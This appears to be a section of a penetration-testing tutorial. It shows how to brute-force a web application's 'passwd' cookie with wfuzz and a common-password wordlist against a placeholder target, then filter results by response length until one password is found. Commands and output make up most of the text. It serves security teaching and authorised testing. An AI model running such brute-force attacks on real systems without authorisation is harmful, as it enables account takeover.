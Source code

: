 ## Fuzzing Cookies
We can easily fuzz cookies with `wfuzz`. To view your cookie values, click on the Cookie Editor installed in Firefox in Demon Linux. Next, grab the name and value of the cookie. Say, we want to fuzz the "passwd" cookie. We can do so with,
```
root@attacker-machine:~# wfuzz -z \
 file,/infosec/SecLists/Passwords/Common-Credentials/10-million-password-list-top-500.txt\
 -b passwd=FUZZ http://(TARGET IP ADDRESS):(TARGET PORT)
```
This will run though the word list of 10-million-password-list-top-500.txt and replace the cookie value, passwd, with the value from the wordlist and attempt to make a new HTTP request using that new cookie value. This will return a LOT of strings like so,
```
********************************************************
* Wfuzz 2.1.3 - The Web Bruteforcer                      *
********************************************************

Target: http://(TARGET IP ADDRESS):(TARGET PORT)
Total requests: 500

==================================================================
ID	Response   Lines      Word         Chars          Request    
==================================================================

00000:  C=000     14 L	      29 W	    324 Ch	  "12345678"
00001:  C=000     14 L	      29 W	    324 Ch	  "qwerty"
00002:  C=000     14 L	      29 W	    324 Ch	  "123456789"
00003:  C=000     14 L	      29 W	    324 Ch	  "12345"
00004:  C=000     14 L	      29 W	    324 Ch	  "1234567"
00005:  C=000     14 L	      29 W	    324 Ch	  "1234"
00006:  C=000     14 L	      29 W	    324 Ch	  "123456"
00007:  C=000     14 L	      29 W	    324 Ch	  "111111"
00008:  C=000     14 L	      29 W	    324 Ch	  "password"
00009:  C=000     14 L	      29 W	    324 Ch	  "dragon"
00010:  C=000     14 L	      29 W	    324 Ch	  "123123"
00011:  C=000     14 L	      29 W	    324 Ch	  "123321"
00012:  C=000     14 L	      29 W	    324 Ch	  "mustang"
```
As you can see, they all have something in common - the Character length of 324 is returned from the server after we make each HTTP request with the new cookie. So, we need to filter out these false-positives using the `--hh` filter as so,
```
root@attacker-machine:~# wfuzz --hh 324 -z \
 file,/infosec/SecLists/Passwords/Common-Credentials/10-million-password-list-top-500.txt\
 -b passwd=FUZZ http://(TARGET IP ADDRESS):(TARGET PORT)
```
This will now be much cleaner responses, like the following terminal listing,
```
root@attacker-machine:~# wfuzz --hh 324 -z \
 file,/infosec/SecLists/Passwords/Common-Credentials/10-million-password-list-top-500.txt\
 -b passwd=FUZZ http://(TARGET IP ADDRESS):(TARGET PORT) 
********************************************************
* Wfuzz 2.1.3 - The Web Bruteforcer                      *
********************************************************

Target: http://(TARGET IP ADDRESS):(TARGET PORT)
Total requests: 500

==================================================================
ID	Response   Lines      Word         Chars          Request    
==================================================================

00475:  C=000     21 L	      48 W	    540 Ch	  "SuperSecretPass123"

Total time: 1.719570
Processed Requests: 500
Filtered Requests: 499
Requests/sec.: 290.7702

root@attacker-machine:~#
```
